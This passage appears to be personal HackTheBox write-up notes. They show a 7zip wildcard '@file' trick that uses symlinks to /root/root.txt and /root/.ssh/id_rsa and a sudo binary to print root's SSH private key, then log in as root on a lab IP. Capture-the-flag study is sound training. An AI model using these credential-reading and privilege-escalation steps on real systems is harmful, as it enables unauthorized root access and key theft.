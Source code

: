 ![[HackTheBox/Linux/attachments/Pasted image 20250512210315.png]]

Basically this vulnerability gives us the ability to read files we don't have permissions to read.

### Wildcard Spare Trick to Read Root's id_rsa

Create `@root.txt`
```
touch -- @root.txt
```
Create `@id_rsa`
```
touch -- @id_rsa
```
Create symlink for `root.txt`
```
ln -s /root/root.txt root.txt
```
Create symlink for `id_rsa`
```
ln -s /root/.ssh/id_rsa id_rsa
```

Move these files into` /var/www/html`
```
mv * /var/www/html
```

Switch to this directory 

![[HackTheBox/Linux/attachments/Pasted image 20250512211123.png]]

Now when 7zip runs, it will hit the wildcard, which will see @root.txt and @id_rsa and read the file.

Execute the binary
```
sudo /usr/bin/usage_management
```

It's printing the ssh keyyyy
![[HackTheBox/Linux/attachments/Pasted image 20250512211328.png]]

Got root's ssh key 
![[HackTheBox/Linux/attachments/Pasted image 20250512211355.png]]

Save this to a file called root and chmod the file 

```
chmod 600 root
```

### SSH in as root
```
ssh -i root root@10.10.11.18
```

![[HackTheBox/Linux/attachments/Pasted image 20250512211525.png]]
⭐got root⭐